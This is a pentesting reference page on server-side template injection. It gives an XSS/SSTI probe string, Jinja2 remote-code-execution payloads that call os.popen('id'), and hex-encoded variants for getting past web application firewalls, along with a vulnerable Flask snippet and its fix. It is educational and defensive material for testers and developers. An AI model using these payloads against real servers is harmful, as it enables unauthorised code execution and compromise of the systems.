 ```yaml
---
authors: ShutdownRepo, p0dalirius, Fantabc
category: web
---
```


# 🛠️ SSTI (Server-Side Template Injection)

## Theory

Some web applications rely on template engines to offer dynamic content. When user inputs are embedded in templates, without proper sensitization, the web apps can be vulnerable to SSTIs (Server-Side Template Injections). This is a critical vulnerability that can sometimes lead to Sensitive Information Disclosure, Local File Disclosure and even RCE (Remote Code Execution).

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that might be embedded in templates.

The following payload is used for testing [SQL injections](../../web/inputs/sqli.md), [XSS (Cross-Site Scripting)](../../web/inputs/xss.md) and SSTI (Server-Side Template Injection). The <code>&#123;&#123;7*7&#125;&#125;</code> should be interpreted and changed to `49` by **Jinja2** and **Twig** engines.

```html
'"<svg/onload=prompt(5);>{{7*7}}
```

The following injection methodology can be used to identify the template engine. Is the content modified?

Depending on the template engine in use, testers will be able to fully exploit the SSTI vulnerability.

> [!TIP]
> Many template engines offer a sandboxed mode for intentional template injection (to offer rich functionalities). A server-side template injection can sometimes be a feature and not a vulnerability.

## Creating a payload from scratch

After finding a vulnerable field with a basic payload, the attacker still needs to exploit it. The next step is to find a variable that can be used to access classes, variables or modules to run shell commands and get a RCE. The variables to search for depends on the detected render engine. For example, **Jinja2** has the `request` variable, it may be a good idea to try it first.

If no variable is found, there are always the default string constructor (`''`), the default array constructor (`[]`), the default object constructor (`{}`), etc, to start with.

Whether a variable has been found or using a default constructor, there are 2 main ways to create a payload :

- Reading the source code of the variable / default constructor on Github
- Try it on the fly on a local machine and explore all the properties and methods

To speed up the process, it is often easier to start searching from the result : finding a piece of code in the code base where it is possible to run shell commands and then exploring all the properties and methods of the variable / default constructor to reach this first piece of code.

Searching a payload from scratch is a long way to find a RCE but, unless someone on the Internet already shared a payload, there is no better way to do so.

## Example

> [!NOTE]
> The following example will use Jinja2 as the render engine. However, the method is the same with every render engine.

If the server is known to use Python, chances are it might use **Jinja2** as well to render the HTML. To check if an input is vulnerable to a SSTI, use the following payload :

```py
{{ 7*7 }}
```

Multiple payloads can then be used to get a RCE. To perform a RCE, the goal is to retrieve the `os` module one way or another to execute shell commands from there.

Using the already imported `os` module :

```py
{{ os.popen('id').read() }}
```

Using the `request` variable :

```py
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Context independant payloads to get the `os` module by **[Podalirius](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)** :

```py
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

## WAF bypass

The web application may be under a **Web Application Firewall**, protecting a SSTI from abusing the server. However, there are a lot of creative way to bypass its restrictions.

### Bypass `.`

In some language, a property or a method is accessible with brackets, for example :

```js
variable.property == variable['property']
```

Using this is a common way to bypass the `.` filter.

### Bypass `_` and other special property symbols

By combining the previous method with this one, WAF characters blacklist can be bypassed using hexadecimal encoding :

```py
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}
```

Or with the full payload encoded :

```py
# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

## Securing the app as a developer

When programming, it might be useful to know what the code behind a SSTI looks like. The following example uses a Python Flask server running with Jinja2 for easier understanding. However, the concept is the same with every language.

Here is a vulnerable source code.

```py
from flask import Flask, request, render_template_string

# Create the app
app = Flask(__name__)

# Home route
@app.route('/')
def home():
    if request.args.get('user'):
        # Render the 'user' argument
        return render_template_string('Welcome ' + request.args.get('user'))
    else:
        # Default page
        return render_template_string('Hello World!')
```

An attacker can perform a SSTI with the URL :

```
http://<server>/?user={{7*7}}  // Plain text
http://<server>/?user=%7B%7B7*7%7D%7D  // URL encoded
```

The template will then render with the response `Welcome 49`.

To fix the problem, the developer should avoid rendering user input. To include user input in the template, the developer should use variable parameters like the following example.

```py
@app.route('/')
def home():
    if request.args.get('user'):
        return render_template_string('Welcome {{ username }}', username=request.args.get('user'))
    else:
        ...
```

Sometimes, it is not possible due to business conditions. One other way is to add a blacklist with all sensible characters and use a sandboxed environment. However, adding a blacklist is not the most popular option, as it can be easily bypassed.

## Resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

[https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)